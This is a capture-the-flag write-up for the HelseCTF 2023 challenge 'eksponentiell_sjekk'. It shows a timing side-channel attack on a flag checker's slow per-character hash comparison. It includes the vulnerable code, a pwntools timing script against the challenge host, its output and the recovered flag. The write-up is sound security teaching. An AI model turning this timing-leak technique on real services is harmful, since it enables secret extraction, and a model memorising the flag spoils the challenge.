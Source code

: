 # eksponentiell_sjekk (500)
I den andre oppgaven om sidekanalsangrep er selve sårbarheten mer kamuflert.

Det eneste du kan gjøre er å sjekke om du vet hele flagget, eller ikke. Se ellers intro/remote for introduksjon til oppkobling.

from pwn import *
io = remote("helsectf2023-6ac4e1c6d8855c1bd96a-eksponentiell_sjekk.chals.io", 443, ssl=True)
io.interactive()

[souce.py](source.py)

# Writeup

Seeing as this is a side channel attack we can do some side channel analysis. The app seems to do a pretty heavy hashing if we meet the length requirement. 


```python
def strcmp(s1,s2):
    if len(s1) != len(s2):        
        return False
    for i in range(len(s1)):
        if hash(s1[i]^s2[i]) != 0:
            return False
    return True
```

Using this we should see a bit of time increase if we bypass the first check. Creating a simple script to do this just sending 2 FF's at a time. We know it is between 51 and 99 characters long so we dont have to check em all. The reason I send FF is that this is 255 and the highest number we can send to it which also uses more time. Easier to spot. 

Out comes [solve.py](solve.py)

```python
from pwn import *
import time
io = remote("helsectf2023-6ac4e1c6d8855c1bd96a-eksponentiell_sjekk.chals.io", 443, ssl=True)

print(io.recvuntil(b"flagget?").decode())

for i in range(51, 100):
    start = time.time()*1000
    io.sendline(b"FF"*i)

    io.recvuntil(b"flagget?")
    end = round(time.time()*1000 - start)
    print(f"Testing length {i} - Time used: {end}ms")
```

This resulted in this output:

```
Testing length 51 - Time used: 96ms
Testing length 52 - Time used: 157ms
Testing length 53 - Time used: 96ms
Testing length NN - Time used: ~95ms
```

So most running only the if check takes around 96ms, but at 52 characters it takes around 60 ms more. This means we're in the hash function with 255 number. If we try a lower number e.g. 0 we would not be able to identify when we enter it.

So to leak data now we just need to send 52 bytes of 255 and alter the first byte until we see a spike in time use. So pretend that everything is padded up to 52 bytes of 256. If I put an "A" as the first character it would fail much faster thn 255. So around 100ms time before it returns wrong flag. But once I hit the correct one it will progress to the second byte which still is 256 and takes a whole lot longer time. So when we loop through the allowed characters once it hits `h` (start of flag) it will hash that value (104) which goes pretty fast. But then it will try to hash the second character which is 255 and takes longer time. This way we can identify that we managed to progress by 1 character and we know it.

So I build a script using that loops through 52 characters and does this simple time check and selects the character with the highest time. I've seen that there are some false positives so I added a double check if I got some high values. That was almost perfect and [this script](solve.py) gave me this:

```
helsectf{f@il_Fas7_a|g0ritmeR_k4N_L3Kke_1NfOrM45j0nR
```

I call that close enough, that is 52 letters so I know the last should be `}`. The reason it is hard to find out the last is that we do not run the hashing function on a next character so nearly any I try on the last character place will be around 100ms.

# Flag

```
helsectf{f@il_Fas7_a|g0ritmeR_k4N_L3Kke_1NfOrM45j0n}
```